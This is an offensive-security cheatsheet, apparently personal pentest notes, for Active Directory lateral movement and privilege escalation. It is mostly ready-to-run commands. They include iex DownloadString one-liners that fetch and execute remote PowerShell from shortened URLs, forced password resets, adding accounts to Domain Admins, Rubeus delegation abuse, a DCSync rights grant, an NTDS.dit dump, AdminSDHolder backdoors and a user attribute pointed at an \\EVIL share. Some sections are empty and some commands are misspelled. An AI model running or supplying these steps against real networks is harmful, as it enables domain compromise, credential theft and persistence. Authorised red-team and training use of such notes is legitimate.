 ```yaml
---
layout: post
title: TA0008 Lateral Movement - AD Privilege Escalation
parent: cheatsheets
category: misc
modified_date: 2022-07-19
permalink: /pen/ad-privesc
---
```

<!-- vscode-markdown-toc -->
* [PRE-REQUISITE: Installing PowerUp and PowerSploit](#PRE-REQUISITE:InstallingPowerUpandPowerSploit)
* [Tampering the OS to enabling Remote Administration](#TamperingtheOStoenablingRemoteAdministration)
* [LATERAL MOVEMENT](#LATERALMOVEMENT)
* [PRIVESC](#PRIVESC)
* [TOKEN IMPERSONATION](#TOKENIMPERSONATION)
* [ADD MEMBER](#ADDMEMBER)
* [FORCE PASSWORD CHANGE](#FORCEPASSWORDCHANGE)
* [KERBEROASTING](#KERBEROASTING)
* [ABUSING DELEGATION](#ABUSINGDELEGATION)
* [DUMP NTDS.DIT](#DUMPNTDS.DIT)
* [Admin SDHolder](#AdminSDHolder)
* [SMB v1](#SMBv1)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITE:InstallingPowerUpandPowerSploit'></a>PRE-REQUISITE: Installing PowerUp and PowerSploit

- [PowerUp CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)
- [PowerSploit CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerSploit.pdf)

```powershell
# ActiveDirectory Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# PowerUp Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/1PdjSHk'); . .\PowerUp.ps1

# PowerSploit Module
iex (new-Object Net.WebClient).DownloadString('http://bit.ly/28RwLgo'); . .\PowerSploit.ps1
```

## <a name='TamperingtheOStoenablingRemoteAdministration'></a>Tampering the OS to enabling Remote Administration
```powershell
# powershell remoting enable / verify (Needs Admin Access)
Enable-PSRemoting

# WMI remoting as user authenticated on the Da / execution with DC privileges
Set-RemoteWMI -UserName johndoe -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose

# RDP : enable / disable / check access
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections

```

## <a name='LATERALMOVEMENT'></a>LATERAL MOVEMENT
```powershell
Invoke-DCOM
Invoke-SMBExec
Invoke-PsExec
Invoke-Command
mstsc.exe

# BH edge WriteOwner
. .\PowerView.ps1
Set-DomainObjectOwner -Identity admin -OwnerIdentity jfrank_owned -Verbose
Add-DomainObjectAcl -TargetIdentity admin -PrincipalIdentity jfrank_owned -Rights ResetPassword -Verbose
$UserPassword = ConvertTo-SecureString 'Password01' -AsPlainText -Force
Set-DomainUSerPAsswore -Identity admin -AccountPassword $UserPassword -Verbose

# BH edge AllowedToAct \{Protected Users,Sensitive} (TrustedDelegation Abuse)
rubeus.exe hash /user:admin /password:Password01 /domain:contoso
rubeus.exe s4u /user:admin /rc4:xxx /impersonateuser:da_contoso /msdsspn:cifs/share01.contoso /ptt
dir \\share01.contoso\c$

# BH edge SQLadmin (part of SPNTargets Collection Method)
. .\PowerUpSQL.ps1
Get-SQLInstanceScanUDP -ComputerName mssql01.contoso
Get-SQLSysadminCheck -Instance CONTOSO\msqsql01
Invoke-SQLOSCmd -Verbose -Command "whoami" -Instance CONTOSO\mssql01
Invoke-SQLOSCmd -Verbose -Command "net session" -Instance CONTOSO\mssql01 #need local admin rights

```

## <a name='PRIVESC'></a>PRIVESC
```
Get-Hotfix
```

## <a name='TOKENIMPERSONATION'></a>TOKEN IMPERSONATION

## <a name='ADDMEMBER'></a>ADD MEMBER
```
# OPTION 1
net group "Domain admins" dagreat /add /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'jomivz' -Credential $Cred

# VERIFICATION
Get-DomainGroupMember -Identity 'Domain Admins'

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose

# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```


## <a name='FORCEPASSWORDCHANGE'></a>FORCE PASSWORD CHANGE
```
# OPTION 1
net user dagreat Password123! /domain

# OPTION 2
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat',$SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity dagreat -AccountPassword $UserPassword -Credential $Cred
```

## <a name='KERBEROASTING'></a>KERBEROASTING
```

```
## <a name='ABUSINGDELEGATION'></a>ABUSING DELEGATION
```
# configure the CD backdoor with proto transition
Get-ADComputer -Identity <ServiceA> | Set-ADAccountControl -TrustedToAuthForDelegation $true
Set-ADComputer -Identity DC01 -Add @{'msDS-AllowedDelegationTo'=@('CIFS/DC01.corp')}

# configure a RBCD backdoor
# ServiceB has 'msDS-AllowedToActOnBehalfOfOtherIdentity' set, pointing to ServiceA
Set-ADComputer <ServiceB> -PrincipalAllowedToDelegateToAccount <ServiceA>

# trigger the backdoor
[Reflection::Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<DAgreat>')
$idToImpersonate.Impersonate()
```

# Set A DCSYNC
```
Add-ObjectAcl -TargetDistinguishedName "dc=<DC01>,dc=local" -PrincipalSamAccountName <sogreatW -Rights DCSync -Verbose
```

## <a name='DUMPNTDS.DIT'></a>DUMP NTDS.DIT
```
ntdsutil.exe "activate instance ntds" "ifm" "Create Full C:\Temp\ntds.dmp" quit quit
```

## <a name='AdminSDHolder'></a>Admin SDHolder
```
# backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=<Domain>,DC=local' -PrincipalIdentity matt -Rights All/
```


## <a name='SMBv1'></a>SMB v1
```
# connecting from kali to windows
smbclient -U jomivz -L 1.2.3.4 -W testlab.local

# win10 tampering: PS activate SMBv1 OptionalFeatures
Enable-WindowsOptionalFeature -Online -FeatureName smb1protocol
```
Reference: [Docs Microsoft - configuring SMB](https://docs.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/detect-enable-and-disable-smbv1-v2-v3)

